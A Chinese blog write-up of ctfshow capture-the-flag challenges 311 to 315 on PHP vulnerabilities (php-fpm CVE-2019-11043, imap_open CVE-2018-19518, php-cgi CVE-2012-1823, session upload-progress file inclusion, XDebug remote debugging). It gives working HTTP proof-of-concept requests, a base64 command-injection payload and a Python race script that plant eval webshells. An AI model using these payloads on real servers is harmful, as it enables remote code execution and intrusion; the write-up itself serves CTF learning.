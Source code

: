```yaml
---
title: ctfshow-phpcve
id: ctfshow-phpcve
date: 2021-10-07 12:40:30
sidebar_position: 7
---
```


<!-- more -->

打算把单项都补完，整完这个还差个java--

## 311：CVE-2019-11043

[PHP-fpm 远程代码执行漏洞(CVE-2019-11043)分析 (seebug.org)](https://paper.seebug.org/1063/)

github上存在公开的exp：[neex/phuip-fpizdam: Exploit for CVE-2019-11043 ](https://github.com/neex/phuip-fpizdam)
需要go环境：[Downloads - The Go Programming Language](https://golang.google.cn/dl/)

go环境安装完成后，运行下面语句

```
go get github.com/neex/phuip-fpizdam
```

然后直接用就好：

```
phuip-fpizdam url/index.php
```

![](https://i.loli.net/2021/10/07/R8WXriTC2N7xKFh.png)

然后访问`url/?a=<your command>`执行命令即可（不行就多试几次）

![](https://i.loli.net/2021/10/07/XM6T2FfbP3kdABD.png)



## 312：CVE-2018-19518

[CVE-2018-19518：PHP imap_open函数任意命令执行漏洞复现 - FreeBuf](https://www.freebuf.com/vuls/192712.html)

bp发送如下数据包即可成功执行命令：
`echo '<?php eval($_POST[1]);' > /var/www/html/a.php`

poc：

```http
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125

hostname=x+-oProxyCommand%3decho%09ZWNobyAnPD9waHAgZXZhbCgkX1BPU1RbMV0pOycgPiAvdmFyL3d3dy9odG1sL2EucGhw|base64%09-d|sh}a&username=222&password=333
```

记得改Host
中间base64的部分就是要执行的命令，这里我是写了一个马到a.php里

![](https://i.loli.net/2021/10/07/eZDUJH1M2mQq7kt.png)

执行命令

![](https://i.loli.net/2021/10/07/vAXpzr89GOBe6VF.png)



## 313：CVE-2012-1823

[PHP-CGI远程代码执行漏洞（CVE-2012-1823）分析 (seebug.org)](https://paper.seebug.org/297/)

> 漏洞利用：
>
>  `-s`直接显示源码
>
> `-d`指定`auto_prepend_file`来制造任意文件包含漏洞

访问：

```
index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input
```

抓包post:

```
<?php echo shell_exec('ls');?>
```

或者直接用poc也行：（记得改Host）

```html
POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: example.com
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

<?php echo shell_exec("id"); ?>
```

![](https://i.loli.net/2021/10/07/7IQNtoFKYGSXevW.png)



## 314：session_upload+文件包含

> hint：严格说算不上cve

[利用session.upload_progress进行文件包含和反序列化渗透 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/202819.html)

```php
<?php

error_reporting(0);

highlight_file(__FILE__);

//phpinfo
$file = $_GET['f'];

if(!preg_match('/\:/',$file)){
    include($file);
}
```

接触很多次了，直接放脚本（写了个马在a.php）

```python
import requests
import io
import threading

url = "http://fe15f2b4-caa8-4685-8872-33b3e7ebef0b.challenge.ctf.show:8080/"

sessionid = "na0h"

def write(session):
    filebytes = io.BytesIO(b'a' * 1024 * 50)
    while True:
        resp = session.post(url,
                            data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST[1]);?>'},
                            files={'file': ('na0h.png', filebytes)},
                            cookies={'PHPSESSID': sessionid})
        print("[*]writing...")


def read(session):
    while True:
        resp = session.post(url+'?f=/tmp/sess_'+sessionid,
                            data={'1': '''file_put_contents('a.php','<?php eval($_POST[1]);?>');'''},
                            cookies={'PHPSESSID': sessionid})
        if 'na0h.png' or 'offset: 1' in resp.text:
            print(resp.text)
            event.clear()
        else:
            print("[*]status:"+str(resp.status_code))

if __name__ == "__main__":
    event = threading.Event()
    with requests.session() as session:
        for i in range(5):
            threading.Thread(target=write, args=(session,)).start()
        for i in range(5):
            threading.Thread(target=read, args=(session,)).start()
    event.set()
```

![](https://i.loli.net/2021/10/07/Iqo6H8SGPTCl1gF.png)



## 315：XDebug 远程调试漏洞

> hint：debug开启，端口9000

如题：[XDebug 远程调试漏洞 (代码执行)「Vulhub 文档」](https://www.wangan.com/docs/399)

exp：[vulhub/php/xdebug-rce (github.com)](https://github.com/vulhub/vulhub/tree/master/php/xdebug-rce)

把[exp](https://github.com/vulhub/vulhub/blob/master/php/xdebug-rce/exp.py)拷下来，跑一下：

> **重要说明：因为该通信是一个反向连接的过程，exp.py启动后其实是会监听本地的9000端口（可通过-l参数指定）并等待XDebug前来连接，所以执行该脚本的服务器必须有外网IP（或者与目标服务器处于同一内网）。**

```
# 要求用python3并安装requests库(得有公网服务器)
python3 exp.py -t url/index.php -c 'shell_exec('id');'
```

云服务器记得去改安全组，把9000端口开了即可

![](https://i.loli.net/2021/10/07/C2GHc86WsEkLSU5.png)